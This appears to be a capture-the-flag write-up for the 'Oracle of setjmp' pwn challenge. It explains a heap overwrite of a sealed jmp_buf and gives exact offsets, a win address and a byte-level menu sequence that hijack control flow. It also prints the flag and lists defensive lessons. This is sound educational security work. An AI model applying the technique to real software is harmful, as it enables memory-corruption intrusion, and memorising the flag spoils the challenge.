


# Oracle of setjmp — Heap Overwrite of a Sealed `jmp_buf`

**Category:** Pwn · **Event:** AlgoCyber / Algolymp 2026  
**Flag:** `Algolymp{y0ur3_th3_0r4cl3_n0w}`

## Root cause

The x86-64 non-PIE challenge linked against musl and offered menu actions to create, seal, edit and restore 'checkpoints'. Disassembly showed a heap-backed structure where the checkpoint's inscription buffer and its saved setjmp state were too close to one another.

| Field | Offset from checkpoint base |
|:--|--:|
| Inscription base | `0x20` |
| Sealed copy of `jmp_buf` | `0xa8` |
| Active `jmp_buf` | `0x170` |

The **Edit inscription** operation wrote to `checkpoint + 0x20 + user_offset` and permitted offsets large enough to reach the sealed context. **Restore** copied this sealed buffer back into the active context and invoked `longjmp`. The saved return address and stack pointer were unprotected in this musl build.

## Control-flow hijack

The saved stack pointer and instruction pointer were at `sealed_jmp_buf + 48` and `+ 56`. Relative to the inscription base, they were:

```text
Saved RSP byte: edit offset 184 (0xb8)
Saved RIP     : edit offset 192 (0xc0)
Win function  : 0x40129d (non-PIE address)
```

The attack wrote a low-byte stack adjustment (`0x08`) followed by the 64-bit little-endian win address (`p64(0x40129d)`), then selected **Restore the prophecy**. The stack patch was specific to the state of this binary; it should not be generalized as a universal `setjmp` exploit fix.

Menu-level sequence:

```text
1 → create checkpoint 0, inscription 'A'
2 → seal checkpoint 0
3 → edit slot 0, offset 184, 1 byte  : 08
3 → edit slot 0, offset 192, 8 bytes: 9d 12 40 00 00 00 00 00
5 → restore checkpoint 0
```

Because this requires raw bytes (including NULs), the exploit used the Python/pwntools client in [`exploit.py`](exploit.py), not manual `nc` input.

## Result

The exploit printed:

```text
~~~ The Oracle reveals the sacred truth ~~~
Algolymp{y0ur3_th3_0r4cl3_n0w}
```





Run with Python 3 and `pwntools` on a **challenge instance assigned to you**:

```bash
python3 exploit.py <host> <port>
```

## Defensive lessons

- A serialized/snapshotted `jmp_buf` is sensitive control-flow data.
- 'Sealing' a checkpoint does not protect it if subsequent writes reach the sealed copy.
- Bounds should be enforced against the actual allocation and subobject, not a loosely defined overall offset.
- Context restoration can be a control-flow sink even without a conventional `ret` overwrite.
